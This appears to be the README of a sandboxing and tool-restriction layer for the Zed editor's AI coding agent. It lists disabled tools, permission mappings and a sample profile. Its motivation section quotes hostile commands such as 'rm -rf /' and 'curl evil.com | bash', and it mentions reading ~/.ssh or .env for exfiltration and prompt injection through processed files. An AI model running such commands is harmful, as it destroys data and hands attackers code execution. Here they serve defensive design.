

# playpen-zed-agent

Zed AI Agent 的安全配置层——限制 Agent 可用工具并通过 playpen 沙箱强制执行文件系统/网络/Shell 访问控制。

## 动机

AI coding agent 的本质是执行 LLM 输出。LLM 可能产生：

- **幻觉破坏命令**：`rm -rf /`、`curl evil.com | bash`
- **Prompt Injection**：被处理的文件（agent.md、代码注释）中嵌入恶意指令
- **敏感信息泄漏**：读取 `~/.ssh`、`.env` 并外发

**永远不要把 LLM 输出当可信代码执行。**

## 职责

本库负责 Zed Agent 侧的配置生成。sandbox 规则语法见 [sandbox README](../sandbox/README.md#规则语法)。

## 设计

两层纵深防御：



上层限制 Agent **能调用哪些工具**，下层在 OS 级别**强制执行权限**。即使 tool_permissions 被绕过，底层 Seatbelt 仍会拦截非法操作。

### 1. 有限的工具

Zed 原生提供 20+ 工具，本层仅保留 7 个核心工具，其余的显式禁用：

| 状态   | 工具                                                     | 说明                        |
| ------ | -------------------------------------------------------- | --------------------------- |
| 禁用   | `grep` `find_path`                          | Zed 权限控制不可靠，走 shell + seatbelt 兜底 |
| 启用   | `edit_file` `write_file` `delete_path` `read_file`       | 文件写入 / 删除             |
| 启用   | `fetch`                                                  | 网络请求                    |
| 启用   | `terminal`                                               | Shell（强制走 playpen）     |
| 启用   | `skill` `spawn_agent`                                    | Agent 内部编排              |
| 禁用   | `diagnostics`                                            | 延迟高、使用率低，不如 LLM 自己写代码后通过 lint & build 校验 |
| 禁用   | `apply_code_action` `find_references` `get_code_actions` `go_to_definition` `rename_symbol` | **全部 LSP 工具**——延迟高、使用率低，LLM 通过 shell 命令理解代码更可靠 |
| 禁用   | `move_path` `copy_path` `list_directory` `create_directory` | 减少盲摸索能力              |
| 禁用   | `search_web`                                             | 避免被恶意网页污染          |

**terminal 特殊处理**：Agent 的 `terminal()` 不允许直接执行 shell 命令，必须通过 `playpen exec <命令>` 或 `playpen run '<脚本>'`，将执行交给 sandbox crate 的 Seatbelt 沙箱。

### 2. 强制沙箱映射

从 [sandbox 文件系统规则](../sandbox/README.md#文件系统规则) 生成 Zed 的 `tool_permissions`（仅映射到写工具，读操作由 shell + seatbelt 兜底）：

| sandbox 规则        | 写工具 (`write_file` 等) | 终端 (`terminal`)       |
| ------------------- | ------------------------ | ----------------------- |
| 允许（`rw`/无前缀）  | `always_allow`           | 委托给 playpen          |
| 拒绝（`--`）         | `always_deny`            | `default: "deny"`       |
| 只读（`r-`）         | `always_deny`            | —                       |

- 未匹配的路径默认拒绝。
- 终端工具固定只允许 `playpen exec` 和 `playpen run` 两个命令前缀。

### 3. agent profiles

生成的 profiles 控制各工具的开关，例如：

```json
{
  "code": {
    "tools": {
      "edit_file": true,
      "write_file": true,
      "delete_path": true,
      "fetch": true,
      "terminal": true,
      "skill": true,
      "spawn_agent": true
    }
  }
}
```

禁用的工具不会出现在 profiles 中，Zed 侧不会暴露这些工具给 Agent。
